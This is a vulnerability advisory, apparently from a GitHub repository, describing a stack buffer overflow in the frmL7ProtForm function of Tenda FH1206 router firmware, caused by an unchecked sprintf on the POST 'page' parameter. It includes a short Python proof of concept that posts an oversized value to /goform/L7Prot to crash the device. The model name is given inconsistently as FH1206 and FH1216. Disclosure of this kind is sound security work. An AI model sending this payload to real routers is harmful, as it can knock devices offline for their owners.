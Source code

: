 # frmL7ProtForm

## Overview

- Firmware download website: https://www.tendacn.com/hk/download/detail-2344.html

## Affected version

FH1206 V1.2.0.8(8155)_EN

## Vulnerability details

There is a stack buffer overflow vulnerability in Tenda FH1216 V1.2.0.8(8155)_EN, located in the **frmL7ProtForm** function. The function receives the `page` parameter from a POST request. `   sprintf(v15, "firewall_proto_list.asp?page=%s", v10);` The statement will cause a buffer overflow. The `page` value provided by the user may exceed the capacity of the `v15` array, thereby triggering this security vulnerability.

![image](https://github.com/user-attachments/assets/766905c2-ed63-4bff-83c1-b9164697775b)


## POC

```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/L7Prot"
payload = b"a"*1000

data = {"page": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image](https://github.com/user-attachments/assets/5544755d-084f-451d-a7fe-33cc028751fe)

